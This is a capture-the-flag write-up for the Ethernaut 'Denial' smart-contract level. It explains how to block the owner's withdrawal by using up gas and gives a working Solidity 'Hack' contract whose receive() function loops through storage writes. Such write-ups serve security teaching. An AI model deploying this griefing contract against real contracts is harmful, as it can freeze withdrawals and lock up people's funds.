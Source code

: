 # Denial Ethernaut

## Goals

=> If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

### Hints

- None

### Solution

- They requirements can be met by just creating a few computational expensive actions in the receive function of the "partner" contract like a few storage writes at 20k gas each so we would need about 50 storage writes to exceed 1M gas.

- Just deploy the below contract to win the challenge

### Contract

```solidity
contract Hack {
    Denial denial;

    address[] grieverArray;

    constructor(address _denial) {
        denial = Denial(payable(_denial));
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        // sufficient for close to 2 million gas (1 million was the goal)
        for (uint i = 0; i < 100; ++i) {
            grieverArray.push(msg.sender);
        }
    }
}
```
